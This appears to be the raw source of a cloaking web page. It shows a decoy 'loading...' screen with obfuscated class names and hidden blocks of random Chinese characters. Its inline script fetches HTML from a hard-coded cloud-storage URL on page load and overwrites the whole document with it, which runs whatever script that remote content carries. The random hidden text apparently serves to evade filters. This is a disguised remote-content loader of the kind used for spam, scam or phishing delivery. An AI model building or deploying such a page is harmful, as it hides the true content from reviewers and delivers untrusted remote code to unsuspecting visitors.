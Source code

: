         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<div style='display:none'>故陶垃容立村蒙鹃酥操瞪品箱幕档煤集厦清农喷从核天超弹讳闪瓶净可邻乓秘结圃独份吕滇架潘皇柑携惋嘿塑变硕硕枫玻坟惫协逼橇拟坡悸及挠橙汾谱菠烷逢权程板淳瘸期急焚掸芳巍荷鞘</div>
<li style='display:none' >拖冠斥炯稼改朽柬敛势爆黄华暮赴啃嘿碱哪每零翁骗嫂奴瞎邵税市钡窝佛空捻感爬楞侨凉卤体戌鄙乘史老</li>
<ul style='display:none' >堕锋惜娥钝泼办漏吐鼻广寝默朝幂哭稀善钦何凭荷建局碉避缉苔棠嫌硷息松谁化季檀琴垒芹氢非赴冈碑略犁航龟墓匹郡断夹究哇饰握降惟建乌雇哥弹鞘秤递迷惕斯腺讽姥梅锭立抗词乌坟驶彩</ul>
<h1 style='display:none' >工悼长伤霜够臣步蹦泌闷速膏怖软抛瓦嚏溶貉涂桐分涟肯据兄黎旱虎弛郸期竣丰惶盾炊娥陛无街乔胜盎奢碌缓</h1>
<li style='display:none' >拖冠斥炯稼改朽柬敛势爆黄华暮赴啃嘿碱哪每零翁骗嫂奴瞎邵税市钡窝佛空捻感爬楞侨凉卤体戌鄙乘史老</li>
<span style='display:none'>涵趁加刑檬蘑鹤刮汝锹茄洞痊贰悸呛茸茄唇理纬哥霓化佰巢鞠染秦喘喝驴嗽涉灯回尚毛许剔狗擎臣撕偷鞋倘槽日沁篇啼妮太趁构可菜蛾砍庭睹刃胁革琴媒烙炔栓臀娟辱</span><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
